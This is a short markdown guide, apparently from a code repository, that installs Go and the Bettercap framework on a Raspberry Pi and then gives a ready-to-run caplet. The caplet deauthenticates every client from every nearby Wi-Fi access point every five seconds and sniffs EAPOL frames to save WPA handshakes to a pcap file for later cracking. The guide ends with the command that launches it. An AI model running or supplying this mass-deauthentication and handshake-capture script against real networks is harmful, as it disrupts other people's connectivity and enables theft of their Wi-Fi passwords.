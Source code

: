# Bettercap
## Installing GO
As bettercap uses GO we will install this first. Update the number if Go got a newer version available.
```
wget https://go.dev/dl/go1.17.5.linux-armv6l.tar.gz
# extract to /usr/local/go
sudo rm -rf /usr/local/go
sudo tar -C /usr/local -xzf go1.17.5.linux-armv6l.tar.gz
```

We now need to add the PATH environment variable that are required for the system to recongize where the Golang is installed. To do that, edit the `~/.profile` file. Scroll all the way down to the end of the file and add the following:
```bash
PATH=$PATH:/usr/local/go/bin
GOPATH=$HOME/golang
```

Feel free to change the `GOPATH=$HOME/golang` to something else. Finally we need to make the system aware of the new profile, run `source ~/.profile`

Type `which go` to find out where the Golang installed and `go version` to see the installed version and platform.

## Installing Bettercap
Now, with GO installed, we are able to install Bettercap
```bash
sudo apt install libpcap-dev libnetfilter-queue-dev libusb-1.0-0-dev build-essential
go install github.com/bettercap/bettercap@latest
# copy bettercap to use it directly
sudo cp go/bin/bettercap /usr/bin/
# install the caplets and the web ui in /usr/local/share/bettercap and quit
sudo bettercap -eval "caplets.update; ui.update; quit"
```

### Workflow

### Adding Caplets to bettercap
We will save all Caplets in a shared folder: `cd /usr/share/bettercap/captlets`

A simple caplet can look like this:
```bash
# More info about this caplet: https://twitter.com/evilsocket/status/1021367629901115392

set $ {bold}😈 » {reset}

# make sure wlan0 is in monitor mode
# ref: https://github.com/offensive-security/kali-arm-build-scripts/blob/master/rpi3-nexmon.sh
!monstop
!monstart

# every 5 seconds:
# - clear the screen
# - show the list of nearby access points 
# - deauth every client from each one of them
set ticker.period 5
set ticker.commands clear; wifi.show; wifi.deauth ff:ff:ff:ff:ff:ff
# sniff EAPOL frames ( WPA handshakes ) and save them to a pcap file.
set net.sniff.verbose true
set net.sniff.filter ether proto 0x888e
set net.sniff.output wpa.pcap

# uncomment to only hop on these channels:
# wifi.recon.channel 1,2,3
wifi.recon on
ticker on
net.sniff on

# we'll see lots of probes after each deauth, just skip the noise ...
events.ignore wifi.client.probe
# start fresh
events.clear
clear
```

To start bettercap with this caplet run:
```bash
ifconfig wlan0 up
bettercap -iface wlan0 -caplet /usr/share/bettercap/caplets/<caplet-name>.cap
```

# Sources and more
[Evilsocket](https://www.evilsocket.net/2018/07/28/Project-PITA-Writeup-build-a-mini-mass-deauther-using-bettercap-and-a-Raspberry-Pi-Zero-W/)

[Bettercap](https://www.bettercap.org/)

[CyberPunk.rs](https://www.cyberpunk.rs/install-mitm-attack-framework-bettercap)